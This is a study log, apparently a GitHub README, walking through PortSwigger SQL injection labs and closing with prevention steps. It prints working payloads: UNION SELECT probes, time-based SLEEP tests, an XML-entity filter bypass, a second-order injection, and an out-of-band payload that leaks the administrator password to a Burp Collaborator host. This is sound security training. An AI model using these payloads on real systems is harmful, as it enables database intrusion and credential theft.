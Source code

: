 # 📓 Day 3: SQL Injection Basics + Labs

Today’s focus: mastering SQL Injection vulnerabilities using PortSwigger labs.

---

## 🔍 Topics Covered

✅ Understanding SQL Injection basics
✅ UNION-based SQL Injection
✅ Blind SQL Injection (Boolean, Time-based, Error-based)

---

## 🧪 Lab Walkthroughs

### Lab 1: UNION SQL Injection

- Identify column count using `ORDER BY`
- Find reflected columns using `UNION SELECT NULL, 'test'--`
- Extract sensitive data (`username`, `password`)
- Use `NULL` for non-displayed columns

### Lab 2: Blind SQL Injection (Boolean)

- Inject true/false conditions (`AND 1=1`, `AND 1=2`)
- Extract data character by character with `SUBSTRING`

### Lab 3: Blind SQL Injection (Time-based)

- Use `IF` + `SLEEP` conditions to test truth (`IF(1=1, SLEEP(5), 0)--`)
- Infer data by measuring response delays

### Lab 4: Blind SQL Injection (Error-based)

- Use `CASE WHEN` + divide-by-zero to trigger conditional errors
- Extract table names, column names, passwords using crafted payloads

### Lab 5: Out-of-Band (OAST) SQL Injection

- Trigger external DNS/HTTP interactions to leak data
- Use Burp Collaborator to capture the out-of-band callouts
- Craft payloads like:

```
TrackingId=x'||(SELECT password FROM users WHERE username='administrator')||'.your-collab-subdomain.burpcollaborator.net'--
```

- Poll Collaborator tab to retrieve leaked data

### Lab 6: SQL Injection in Different Contexts

- Inject via JSON, XML, or HTTP headers
- Bypass filters using encoding/escaping (e.g., XML entities)
- Example XML payload:

```
<storeId>1 &#x55;NION SELECT username || '-' || password FROM users</storeId>
```

### Lab 7: Second-Order SQL Injection

- Inject payloads that get stored in the DB first (e.g., in profile fields)
- Wait until app retrieves and uses that data in a later SQL query
- Example:
  1. Submit: `newbio=abc' UNION SELECT ...--`
  2. Trigger second request (e.g., profile view) that runs the malicious SQL

---

## 🛡️ Takeaways

- Parameterize all queries — never directly insert user input
- Use prepared statements in all backend code
- Avoid passing table/column names or ORDER BY fields from user input
- Apply whitelisting where dynamic elements are unavoidable
- Grant least privilege to database accounts — no unnecessary `INSERT`, `DELETE`, or `DROP`
- Regularly scan/test with tools like Burp Suite, sqlmap, and Snyk

---

## Steps to Prevent SQLi

1. Use parameterized queries/prepared statements.
2. Avoid dynamic query construction with user-controlled identifiers.
3. Sanitize and validate all inputs, including hidden fields and headers.
4. Apply principle of least privilege — e.g., app DB user only needs `SELECT`, not `DROP`.
5. Regularly patch frameworks and libraries to close known injection vulnerabilities.
6. Run code reviews and static analysis tools to catch unsafe patterns.

---

## 📎 Links

- [PortSwigger SQLi Labs](https://portswigger.net/web-security/sql-injection)
- [Day 3 GitHub Folder](./)

🌟 **Day 3 complete! On to Day 4...**
